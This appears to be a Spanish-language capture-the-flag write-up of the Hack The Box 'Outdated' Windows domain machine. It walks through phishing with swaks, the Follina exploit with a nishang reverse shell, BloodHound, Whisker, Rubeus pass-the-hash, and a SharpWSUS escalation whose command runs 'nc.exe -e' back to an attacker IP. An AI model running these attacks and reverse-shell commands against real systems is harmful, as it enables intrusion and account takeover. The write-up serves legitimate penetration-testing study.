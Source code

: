 ```yaml
---
layout:   post
title:    "Write Up Outdated."
subtitle: "Starting-Point"
category:   HTB
tags:      [Medium,Windows,SMB,CVE,WinRM,BloodHound,BloodHound,EvilWinRM,SMB,Active-Directory,Write-Up-Machine,OSCP,eWPT,eWPTXv2,OSWE]
---
```

![list](/assets/img/outdated/Captura%20de%20pantalla%20(188).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.11.175 -oG allports
```

![list](/assets/img/outdated/Kali-2022-09-05-14-10-52.png){:.lead width="800" height="100" loading="lazy"}

El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comando anterior podremos saber que versiones y servicios que corren en los mismo de ahi podremos determinara posibles vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -sCV -p25,53,88,135,139,143,389,445,464,587,593,636,2179,3268,3269,5985,8530,8531,9389 10.10.10.248 -oN target
```

![list](/assets/img/outdated/Kali-2022-09-05-14-15-03.png){:.lead width="800" height="100" loading="lazy"}

El paso anterior no es nesesario ser (root).
{:.note title="Attention"}

***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros.

Pero comovemos el puerto 445 de samba abierto vamos a pasarle el crackmapexec para ver el nombre de la maquina y el dominio.

![list](/assets/img/outdated/A-2022-12-31-01-14-36.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
El doninio es `outdated.htb`,lo agrgamos al `/etc/hosts` y el nombre de la maquina ed DC y el smb no esta firmado.

Por otra parte con smbclient y smbmap vamos a ver que shares podemos enumerar para obtener algun tipo de informacion.

![list](/assets/img/outdated/AWESOMW-2023-01-03-12-41-46.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Dentro de la carpeta compartida share hay PDF llamado `NOC_Reminder.pdf`.

![list](/assets/img/outdated/A-2022-12-31-01-36-16.png){:.lead width="800" height="100" loading="lazy"}

tambien podemos tratar de conectarnos por rpc pero no tenemos suerte, tambien provemos el kerbrute ya que tenemos el puerto 88 abierto el de kerberos y nos aparecen dos usuarios validoa al parecer `Administrator@outdated.htb` y `guest@outdated.htb` que vamos a provar ARSProast attack pero no tenemos suerte.

Haci que como no conseguimos nada por ese camino regresamos al pdf y lo que probamos es a mandar un correo al correo que dice en el pdf por lo que se es un reporte del NOC sobre la ultimas vulnerabilidades acontecidas el correo se lo mandamos e la siguente manera. 

```bash
swaks --to itsupportqoutdated.htb --from axel@outdated --server mail.outdated.htb --body "http://10.10.16.45" --header "Subject: INTERNAL WEB APPLICATION"
```

{:.note}
Nos ponemos ala escucha en el puerto 443 con netcat para ver cuando se conecte la informcion del User-Aagente.

![list](/assets/img/outdated/AWESOMW-2023-01-04-02-43-15.png){:.lead width="800" height="100" loading="lazy"}

Buscando por los exploit representado en el pdf encontramos el [follina] nos lo decargamos , para usar este exploy debemos ejecutar uns instruccion por eso vamos a usar `nishang`  la [powersell.ps1] y/o [ConPtyShell] para ganar acceso al sistema.

[follina]:(https://github.com/chvancooten/follina.py)
[powersell.ps1]:(https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
[ConPtyShell]:(https://github.com/antonioCoco/ConPtyShell)

![list](/assets/img/outdated/AWESOMW-2023-01-04-02-59-47.png){:.lead width="800" height="100" loading="lazy"}


Lo que hace follina es inyectar un paylodad malicio al servido como exploit.html que esta encriptado en base 64 y lo que trata de  ejecutar son es un binario en el servidor `mpsigstub.exe`.

Ahora lo que debemos hacer es volver a mandar el correo con un servidor web levantado en el puero 80 ademas de estar ala escucha por el puerto 443 y ejecutarlo esto lo que hara esque por detars ejecutara la shell de nidshang orotgandono una shell en el servidor.

![list](/assets/img/outdated/AWESOMW-2023-01-04-03-11-05.png){:.lead width="800" height="100" loading="lazy"}

Aunque ya estamos en la ,maquina victima aun no podemos ver la flag del usuario de bajos privileguios ya que estamos en un contenedor, por lo que es hora de pivotiar de usuario y para eso trataremos de de ver los privilegios del mismo, taareas etc.

## Escalacion de Privileguios

Como husmeando por todos los servidores vamo a jugar con bloohound para saber que caminos para hacernos domain controller para esto ejecutamos `neo4j console` esto te abrira un puerto local 4747 y luego debemos hacer el comando `bllohound &> /dev/null disown` para abrirlo y nos vamos a dscargar y subir a la maquina victima la herramienta [sharkhound.ps1] para recolectar informacion.

[sharkhound.ps1]:(https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)

![list](/assets/img/outdated/AWESOMW-2023-01-04-12-31-47.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
El `data.zip` que nos da lo subimo al bloodhound para ver la info que nos arrojo.


![list](/assets/img/outdated/Captura%20de%20pantalla%20(293).png){:.lead width="800" height="100" loading="lazy"}

![list](/assets/img/outdated/Captura%20de%20pantalla%20(294).png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Descargamos el [whisker] y lo subimos a la maquina victima y luego lo ejecutamos.

[whisker]:(https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Whisker.ps1)

```bash
Invoke-Wisker -Command "add /target:sflowers"
```

![list](/assets/img/outdated/AWESOMW-2023-01-04-14-28-56.png){:.lead width="800" height="100" loading="lazy"}

Ahora nos decargaremos el [Ruberus] de igualmanera lo subiremos a la maquina victima y lo ejecutaremos.

[Ruberus]:(https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

{:.note}
Esto nos dara el hash ntlm `1FCDB1F6015DCB318CC77BB2BDA14DB5` el caul usaremos para hacer pass the hash.

![list](/assets/img/outdated/AWESOMW-2023-01-04-14-33-29.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Con crackmapexec verificamos si el has es valido para smb pero no lo es , tambien lo verificamos para el servicio de winrm y si es valida y podemos hacer pass the hash y conectarnos, ahora somos el usuario `sflowers`.

![list](/assets/img/outdated/AWESOMW-2023-01-04-14-35-47.png){:.lead width="800" height="100" loading="lazy"}

Ya podemos visualizar las flag del usuario e bajos privileguios en el escritorio del usuario `sflowers`.

![list](/assets/img/outdated/AWESOMW-2023-01-04-14-43-52.png){:.lead width="800" height="100" loading="lazy"}

Ahora debemos tratr de obtener privileguios nt authoryty system que es el usuario con privileguios root para esto vamos a enumerar los permioso de `sflowers`.

![list](/assets/img/outdated/AWESOMW-2023-01-04-14-44-34.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Como vemos tenemos permisos [WSUS] haci que averiguaremos sobre el tema y veremos posibles exploits.

[WSUS]:(https://labs.nettitude.com/blog/introducing-sharpwsus/)

Aparte nos debemos decargar el repo para compilarlo en una maquina windows y crear el sharpwsus.exe tambien nos decargaremos el [psexec] y el netcat tambien porque se ve que se usa los dos para explotar la vulnerabilidad y ejecutamos los siguientes comandos.

[psexec]:(https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)

```bash
.\SharpWSUS.exe create /payload:"C:\Windows\Temp\Privesc\psexec.exe" /args:"-accepteula -s -d cmd.exe /c C:\\Windows\\Temp\\nc.exe -e 10.10.16.14 443" /tittle:"shell"
```

{:.note}
Como es obio se debe esatar a la escucha con netcat en el puerto 443, pero debemos esperar a que se suba el parche esto puede demorar uno tres a cinco minutos, para comprovarlo podemos usar `check` como se muestra en la siguiente imagen solo debemos cambiar el `computername` y el `groupname` por los que usted puso.

![list](/assets/img/outdated/AWESOMW-2023-01-04-15-36-45.png){:.lead width="800" height="100" loading="lazy"}

![list](/assets/img/outdated/AWESOMW-2023-01-04-15-36-45.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La flag de root.txt esta en el ecritorio del usuario privilegiado.

***
```bash
🎉 Felicitaciones ya has comprometido Outdated de Hack The Box. 🎉
```
{:.centered}
***